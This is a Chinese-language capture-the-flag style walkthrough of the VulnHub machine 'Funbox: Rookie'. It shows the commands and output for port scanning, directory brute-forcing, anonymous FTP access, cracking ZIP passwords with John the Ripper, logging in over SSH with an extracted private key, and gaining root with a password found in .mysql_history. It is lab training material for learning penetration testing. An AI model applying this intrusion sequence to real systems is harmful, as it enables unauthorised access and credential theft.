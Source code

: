 靶机地址：[Funbox: Rookie ~ VulnHub](https://www.vulnhub.com/entry/funbox-rookie,520/)
推荐：VirtualBox

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.59"
sudo nmap -p "21,22,80" -sV "192.168.1.59"
# 21/tcp open  ftp     ProFTPD 1.3.5e
# 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

访问web服务，是一个apache的默认页面，没什么特别的
web路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.59"
# /robots.txt
```
内容如下
```
Disallow: /logs/
```
再次扫描
```Shell
sudo dirsearch -u "http://192.168.1.59/logs/"
```
啥也没发现，换个字典试试
```Shell
feroxbuster -u http://192.168.1.59 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
也没有别的发现

再看看ftp，匿名登录（anonymous）成功
```Shell
ftp> ls
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
# -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
# -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
# -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
```
下载这些压缩包，发现大小都一样，而且解压需要密码
尝试暴力破解
```Shell
zip2john tom.zip > tom_zip.john
john tom_zip.john --wordlist=/home/kali/Tools/Custom/rockyou.txt
# iubire
zip2john cathrine.zip > cathrine_zip.john
john cathrine_zip.john --wordlist=/home/kali/Tools/Custom/rockyou.txt
# catwoman
```
只破解出这两个密码，其它的都失败了
尝试用这两个SSH
```Shell
ssh tom@192.168.1.59
# iubire
ssh cathrine@192.168.1.59
# catwoman
```
都失败了，先解压出文件看看
```Shell
unzip tom.zip
# iubire
ls -l
# -rw------- 1 kali kali 1675  7月 25  2020 id_rsa
```
尝试通过私钥SSH
```Shell
ssh tom@192.168.1.59 -i id_rsa
```
登录成功了，再试试另一个
```Shell
mv id_rsa tom_id_rsa
unzip cathrine.zip
# catwoman
mv id_rsa cathrine_id_rsa
ssh cathrine@192.168.1.59 -i cathrine_id_rsa
```
失败了，看来能利用的只有 `tom` 这个用户
```Shell
ssh tom@192.168.1.59 -i tom_id_rsa
```
尝试信息收集提权
```Shell
bash -i
ls -a
# .mysql_history .sudo_as_admin_successful 
cat .mysql_history
```
其中包含这样一句SQL
```SQL
insert into support (tom, xx11yy22!);
```
看看这个是不是用户密码，尝试提权
```Shell
sudo -l
# xx11yy22!
# (ALL : ALL) ALL
sudo su
```
提权成功
